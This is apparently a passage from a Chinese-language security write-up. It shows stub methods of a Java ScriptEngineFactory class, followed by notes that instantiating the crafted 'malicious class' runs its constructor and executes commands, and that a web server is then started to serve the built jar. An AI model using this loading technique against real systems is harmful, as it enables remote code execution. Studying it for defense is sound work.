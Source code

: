 ```bash

    @Override
    public List<String> getMimeTypes() {
        return null;
    }

    @Override
    public List<String> getNames() {
        return null;
    }

    @Override
    public String getLanguageName() {
        return null;
    }

    @Override
    public String getLanguageVersion() {
        return null;
    }

    @Override
    public Object getParameter(String key) {
        return null;
    }

    @Override
    public String getMethodCallSyntax(String obj, String m, String... args) {
        return null;
    }

    @Override
    public String getOutputStatement(String toDisplay) {
        return null;
    }

    @Override
    public String getProgram(String... statements) {
        return null;
    }

    @Override
    public ScriptEngine getScriptEngine() {
        return null;
    }
}
```

根据上面 mysql 的例子可以猜测到，在 ScriptEngineFactory 类中应该有对我们构造的恶意类实例化的过程，在实例化时会自动调用构造函数从而导致命令执行  
在生成的 jar 文件目录下开启 web 服务
